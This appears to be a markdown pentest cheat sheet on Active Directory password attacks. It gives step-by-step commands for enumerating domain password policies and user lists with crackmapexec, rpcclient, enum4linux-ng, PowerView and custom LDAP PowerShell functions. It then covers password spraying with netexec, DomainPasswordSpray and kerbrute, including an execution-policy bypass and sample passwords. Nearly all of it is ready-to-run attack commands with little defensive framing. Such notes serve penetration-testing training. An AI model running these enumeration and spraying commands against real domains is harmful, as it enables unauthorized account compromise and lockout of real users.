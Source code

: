 # AD Password Attacks
##  Enumerating the Password Policy
- PowerShell
``` powershell
net account
```
Note: **Lockout threshold** which indicates a limit of _numbers_ login attempts before lockout.
- [PowerView](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Tools/PowerView.ps1)
``` powershell
import-module .\PowerView.ps1
Get-DomainPolicy
```
## Making a Target User List
### From Kali Linux
#### Using `crackmapexec` for Enumeration:
- **Enumerate Users**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --users
  ```
- **Retrieve Password Policies**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --pass-pol
  ```
- **enumerate user SIDs by brute-forcing RID values:**
  ```shell
  crackmapexec smb <Domain_Controller_IP> -u guest -p "" --rid-brute
  ```

#### Using `rpcclient` for Enumeration:
- **Connect to RPC**:
  ```bash
  rpcclient -U <username>%'Password' <Domain_Controller_IP>
  ```
- **Retrieve Password Policies**:
  ```bash
  getdompwinfo
  ```
- **Enumerate Users**:
  ```bash
  enumdomusers
  ```
  *(Lists domain users if accessible)*
- **Filter the Output**:
  ```bash
  cat users.txt | cut -d "[" -f 2 | cut -d "]" -f 1
  ```

#### Using `enum4linux-ng` for Enumeration:
- **Enumerate Users**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password>
  ```
- **Extract Usernames**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password> | grep "username:" | cut -d " " -f 4
  ```

---

### From a Joint Domain Windows Machine

#### Using a PowerShell Script for LDAP Queries:

1. **Save Script as `enumeration.ps1` and Import**:
   ```powershell
   powershell -ep bypass
   Import-Module .\enumeration.ps1
   ```

2. **LDAP Query Functions**:
   ```powershell
   function LDAPSearch {
       param (
           [string]$LDAPQuery
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)
       return $DirectorySearcher.FindAll()
   }

   function Get-LDAPObjectProperties {
       param (
           [string]$ObjectName
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry)
       $DirectorySearcher.Filter = "name=$ObjectName"
       $Results = $DirectorySearcher.FindAll()
       Foreach ($Result in $Results) {
           Foreach ($Property in $Result.Properties.PropertyNames) {
               Write-Host "$Property : $($Result.Properties[$Property])"
           }
           Write-Host "-------------------------------"
       }
   }
   ```

3. **Common Queries**:
   - **Query All Groups**:
     ```powershell
     LDAPSearch -LDAPQuery "(objectclass=group)"
     ```
   - **Get Users and Groups Using `samAccountType`**:
     ```powershell
     LDAPSearch -LDAPQuery "(samAccountType=805306368)"
     ```
     **Common `samAccountType` Values**:
     - `0x30000000` (Decimal **805306368**): **User objects**.
     - `0x30000001` (Decimal **805306369**): **Computer objects**.
     - `0x30000002` (Decimal **805306370**): **Group objects**.
     - `0x10000000` (Decimal **268435456**): **Domain object** (top of the hierarchy).
     - `0x20000000` (Decimal **536870912**): **Built-in group** (default admin/system groups).

4. **Retrieve All Group Members**:
   ```powershell
   foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
       $group.properties | select {$_.cn}, {$_.member}
   }
   ```

5. **Get Specific Group Members**:
   ```powershell
   $group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Management Department*))"
   $group.properties.member
   ```
### **Active Directory Enumeration Using PowerView**

#### **List All Users in the Domain**
```powershell
Get-NetUser
```

#### **Query Users with Specific Attributes**
1. **Retrieve User Common Names (CN):**
   ```powershell
   Get-NetUser | select cn
   ```

2. **Display Users with Password Last Set and Last Logon Information:**
   ```powershell
   Get-NetUser | select cn, pwdlastset, lastlogon
   ```

#### **Filter for a Specific User**
- **Filter by `SamAccountName`:**
  ```powershell
  Get-NetUser | Where-Object { $_.SamAccountName -eq "UserName" }
  ```
# **Password Spraying**

#### **From Kali Linux**

1. **Using `Netexec` (A Newer Version of Crackmapexec):**
   ```bash
   netexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

2. **Using `Crackmapexec`:**
   ```bash
   crackmapexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

---

#### **From a Foothold on a Domain-Joined Windows Host**

- **Tool: [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)**

1. **Import the Module:**
   ```powershell
   Import-Module .\DomainPasswordSpray.ps1
   ```

2. **Perform Password Spraying:**
   ```powershell
   Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
   ```
##### **Password Spraying Using Kerbrute**

**Command to Perform Password Spraying:**
```bash
.\kerbrute.exe passwordspray -d corp.com domain_users.txt P@ssw0rd!
```

 **Parameters Explained:**
- **`passwordspray`**: The action to perform.
- **`-d corp.com`**: Specifies the target domain.
- **`domain_users.txt`**: File containing a list of usernames.
- **`P@ssw0rd!`**: Password to test against all users in the list.
